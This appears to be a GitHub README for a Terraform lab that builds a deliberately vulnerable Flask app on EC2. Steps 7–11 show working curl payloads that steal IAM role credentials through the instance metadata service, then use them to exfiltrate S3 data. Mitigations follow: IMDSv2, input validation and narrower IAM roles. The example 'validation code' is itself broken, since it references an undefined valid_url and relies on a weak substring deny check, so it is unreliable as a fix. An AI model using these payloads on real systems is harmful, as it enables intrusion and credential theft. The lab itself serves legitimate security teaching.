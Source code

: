 # SSRF vulnerability demo
![AWS](https://img.shields.io/badge/AWS-%23FF9900.svg?style=for-the-badge&logo=amazon-aws&logoColor=white)![Terraform](https://img.shields.io/badge/terraform-%235835CC.svg?style=for-the-badge&logo=terraform&logoColor=white)

## Demo diagram 
![Diagram](/images/diagram.jpg)

## Purpose
Demonstrate a Server Side Request Forgery (SSRF) attack in the AWS environment which results in data rertviing from s3, similar to the [CapitalOne breach](https://www.capitalone.com/digital/facts2019/).
The environment will be deployed with Terraform IaC module.



## Prerequisites
* Active AWS account.
* AWS IAM user with AWS credential type: ["Access key - Programmatic access"](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html) and [AdministratorAccess](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html)

*  [Terraform installed](https://learn.hashicorp.com/tutorials/terraform/install-cli)
* Clone this repo to the environment which you run terraform from : 
```console
git clone https://github.com/ramibo/ssrf_aws_demo.git 
```
* [create a key pair ( the public key will be auto imported later to Amazon EC2 by terrafom ).](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/create-key-pairs.html)

* In the following files , set the parameters with your own values  :</br></br>__terraform.tfvars__:</br> `availability_zone` , `key_name`,`public_key`</br></br>__providers.tf__ :</br> `shared_config_files`,`shared_credentials_files`, `profile` , `region`



## Running the demo

1. `cd` to the  `ssrf_aws_demo` directory.

2. Run `terraform init` command to prepare your working directory for the next commands.

3. Run `terraform validate` command to check whether the configuration is valid.

4. Run `terraform plan` command to show the changes required by the current configuration.

5. Run `terraform apply` / `terraform apply -auto-approve` to create/update the infrastructure at AWS.

6. If there are no errors from the previous steps , from your terminal, run the following:
<br>__Important__<br> - The `host` can be the created ec2 instance [Public IPv4 address / DNS ](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-instance-addressing.html#concepts-public-addresses).<br>- In the next steps `bash$` prompt with `"command"` is for commands you need to run.

```console
bash$ curl -s http://host:5000 
AWS SSRF IMDSv1 demo
```

7. The `/uptime` page is vulnerable to an SSRF attack: 
We will utilize the URL parameter with the instance metadata URI --> retrieve the attached IAM role --> extract the security credentials as follows: 
```console
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws_ssrf_demo_iam_role
{
  "Code" : "Success",
  "LastUpdated" : "2022-12-20T20:56:29Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIASF",
  "SecretAccessKey" : "Id+zUu",
  "Token" : "IQoJb3JpZ2luX2VjEEUaCXVzLW",
  "Expiration" : "2022-12-21T03:31:14Z"
}
```

8. From the attached role security credentials output you got in your environment,  copy the values of : 
`AccessKeyId` 
`SecretAccessKey` 
`Token`

9. With AWS CLI - configure a new `aws_ssrf_demo_profile_s3` profile:
```console
aws configure --profile aws_ssrf_demo_profile_s3
```

10. Set the following parameters in your `"$HOME/.aws/credentials"` file with the value copied at step 8:
For example,
```console
[aws_ssrf_demo_profile_s3]
aws_access_key_id = ASIASF
aws_secret_access_key = Id+zUu
aws_session_token=IQoJb3JpZ2luX2VjEEUaCXVzLW
```

11. Get the data from s3  :
```console
# Get the list of s3 buckets
bash$ aws s3 ls --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:47 aws-ssrf-demo-s3-bucket

# Get the bucket content
bash$ aws s3 ls aws-ssrf-demo-s3-bucket --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:48        403 aws_ssrf_demo_data_file.json

# Create a directory
bash$ mkdir data_from_s3
bash$ cd data_from_s3/
bash$ ls -l
total 0

# Retrive the JSON file from the bucket
bash$ aws s3 cp s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json /$HOME/data_from_s3/ --profile aws_ssrf_demo_profile_s3 
download: s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json to ./aws_ssrf_demo_data_file.json

bash$ ls -l
total 8
-rw-r--r--  1 user  group  403 Dec 20 22:55 aws_ssrf_demo_data_file.json


!!! The SSRF attack was successful!!!
```

12. Run `terraform destroy` / `terraform destroy -auto-approve` to remove the infrastructure created at AWS.
## Mitigation Steps



1. Enabling IMDSv2 :</br> 
This step enforces requests to use a session token (applied in aws-ec2-metadata-token header ) that can only be used directly from the EC2 instance where that session began.</br> 
This step is the first that should be taken as the IMDSv2 service acts as a parallel layer to any application or web app firewall (WAF) vulnerblity / misconfiugration which we might not be aware of yet.</br>  
In addtion , the effort to apply it is minor ( updated AWS SDKs and CLIs) compared to the next options.</br>  
For our case (before `terraform destroy` ) run :


```console
aws ec2 modify-instance-metadata-options \
    --instance-id i-1234567898abcdef0 \
    --http-tokens required \
    --http-endpoint enabled
```

For example
```console
bash$ curl -s http://host:5000
AWS SSRF IMDSv1 demo

bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role 

bash$ aws ec2 modify-instance-metadata-options --instance-id i-00d044e5f852fd277 --http-tokens required --http-endpoint enabled --profile aws_ssrf_demo_profile

bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
        "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>401 - Unauthorized</title>
 </head>
 <body>
  <h1>401 - Unauthorized</h1>
 </body>
</html>

```
[More details on how to configure the instance metadata options](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-options.html).

2. Fix the application  ruuning in the ec2 instance by adding validation all client-supplied input data.</br>
For example , 
```python
#vulnerable code
@app.route('/uptime')
def url():
    url = request.args.get('url', '')
    if url:
        content = requests.get(url).text
        return (content)

#validation code
@app.route('/uptime')
def url():
    DENYURL = "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
    url = request.args.get('url', '')
    
    if url:
        if DENYURL in url:
               raise ValueError

        else:
            content = requests.get(valid_url).text
            return (content)
```
3. Reduce permissions in the IAM role towards the s3 bucket.</br>
For example:</br>
```console
{
        Action = [
          "s3:*", #--> set specifc avtion like "s3:ListAllMyBuckets",
        ]
        Effect   = "Allow"
        Resource = "*" #--> set specific bucket name like "arn:aws:s3:::mys3bucket/*"
      },
```


## Refrences
* [FreeCodeCamp - Learn Terraform (and AWS) by Building a Dev Environment – Full Course for Beginners](https://www.youtube.com/watch?v=iRaai1IBlB0)
* [An SSRF, privileged AWS keys and the Capital One breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [How to hack AWS instances that have the metadata service (IMDSv1) enabled](https://alexanderhose.com/how-to-hack-aws-instances-with-the-metadata-service-enabled/)

* https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/